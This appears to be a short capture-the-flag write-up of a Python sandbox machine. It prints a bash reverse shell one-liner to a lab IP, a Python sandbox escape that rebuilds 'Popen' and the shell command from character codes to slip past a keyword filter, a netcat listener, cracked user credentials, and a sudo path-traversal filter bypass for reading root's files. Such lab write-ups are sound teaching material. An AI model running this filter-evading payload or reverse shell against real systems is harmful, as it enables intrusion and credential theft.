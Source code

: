 ![code](./images/code.png)
Started: 5/8/25  
Pwned: 5/8/25  

![nmap](./images/nmap.png)  

popen was blocked  
![keywordblock](./images/keywordblocked.png)  

RevShells basic format: bash -c 'bash -i >& /dev/tcp/10.10.14.10/4444 0>&1'  

x = ().__class__.__bases__[0].__subclasses__()
e = [c for c in x if c.__name__ == ''.join([chr(i) for i in [80,111,112,101,110]])][0]
cmd = ''.join([chr(i) for i in [
    98,97,115,104,32,45,99,32,98,97,115,104,32,45,105,32,62,38,32,
    47,100,101,118,47,116,99,112,47,49,48,46,49,48,46,49,52,46,49,48,
    47,52,52,52,52,32,48,62,38,49
]])  # bash -c 'bash -i >& /dev/tcp/10.10.14.10/4444 0>&1'
e(['/bin/bash', '-c', cmd], shell=False) 

RevShell/Foothold

Command: nc -lvnp 4444 

![revshell](./images/revshell.png)  

![userflag](./images/userflag.png)  

database.db  
![database](./images/database.png)  

crackstation  
![crackstation](./images/crackstation.png)  

development:development  
martin:nafeelswordsmaster  

sudo -l  
![sudo](./images/sudo.png)  

backy.sh  
![backy](./images/backy.png)  

Getting Root  

![task](./images/task.png)  

bypasses the filter since it removes ../ but will leave ../ for path traversal. Since it's running as sudo it will successfully grab the files  

![exploit](./images/exploit.png)  

![loot](./images/loot.png)  

We grabbed the flag but we can also grab the ssh private key of root and log into the system as root if we wanted.
